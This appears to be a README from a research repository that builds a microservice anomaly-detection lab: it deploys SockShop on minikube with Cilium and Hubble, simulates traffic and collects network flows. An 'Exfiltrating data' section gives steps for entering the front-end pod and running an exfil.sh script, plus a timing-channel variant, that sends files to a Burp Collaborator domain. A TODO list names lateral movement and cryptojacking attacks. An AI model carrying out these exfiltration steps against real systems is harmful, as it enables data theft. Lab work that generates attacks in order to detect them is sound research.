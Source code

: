 # Microservice Anomaly Detection
Brian: I want this repository to become the central repository for all things microservice related.
It is a mess and we need to cleanup the whole repository

## Deploying SockShop
1. Optional: Install minikube
2. Optional: Set minikube config to have enough memory and cpu (sets default)
   1. `minikube config set memory 16384`
   2. `minikube config set cpus 10`
3. Create a profile for your cluster: `minikube profile CLUSTER_NAME`
4. Start minikube: `minikube start --cni=cilium -p CLUSTER_NAME --memory 8192 --cpus 4`
5. Deploy SockShop: `bash deploy_sockshop.sh`

Check status of pods: `kubectl get pods --namespace sock-shop`

Get IP of front-end service: `minikube service --profile CLUSTER_NAME --url front-end -n sock-shop` 

Test if it is working `curl http://192.168.49.2:30001` or go to link in browser

## Debugging cilium connectivity 
1. Follow the guide for first time : https://kubernetes.io/docs/tasks/administer-cluster/network-policy-provider/cilium-network-policy/
2. Use https://docs.cilium.io/en/stable/gettingstarted/k8s-install-default/ to run tests : cilium connectivity test and cilium status --wait to verify outputs match.

## Simulating Traffic on SockShop
1. cd into `experiment_coordinator`
2. Setup a conda environment: `conda env create -f condaEnv.yml`
3. Cd into `traffic_simulation`
4. Activate conda env: `conda activate sockShop`
If you need to populate the database full of users: `python simulate_traffic.py -p`
4. Simulate traffic: `python simulate_traffic.py -t`

## Collecting Data with Cilium
1. To deploy cilium: `bash deploy_cilium.sh`
2. Test if its working: `cilium connectivity test`
3. Check if hubble is collecting flows : `hubble status`
4. To start collecting `hubble observe -n sock-shop -o json`

Cilium Documentation: https://docs.cilium.io/en/stable/gettingstarted/

----

## Deployment Instructions[Cryptk8s]

### Initial deployment
1. To cleanup minikube: `bash cleanup.sh`
2. To deploy minikube cluster with cilium and sockshop: `bash initiate.sh`
3. To deploy cilium with hubble: `bash deploy_cilium.sh`
4. Check the status of the cluster with `bash check_pods.sh`
5. Getting the IP of the front-end pod: `bash get_ip.sh`


### Exfiltrating data
1. Get into front end pod using `bash to_front.sh`
2. Once inside front end pod, execute `cd /tmp`
3. Write contents of attack script onto the pod using command `cat >exfil.sh` and pasting contents
4. Make the file executable by running `chmod +x exfil.sh`
5. Setup Burp Collaborator and copy domain name
6. Run exfil.sh with arguments: `./exfil.sh FILE_TO_BE_EXFILTRATED DOMAIN_NAME_FROM_BURP`
7. Repeat steps 3 to 6 with script tchan.sh for timing channel exfiltration

### Collecting data through hubble
1. Follow steps in `Collecting Data with Cilium`
2. Run command `bash observe_net.sh`

### TODO
1. Check hubble data collection
2. Lateral movement
3. Cryptojacking attack

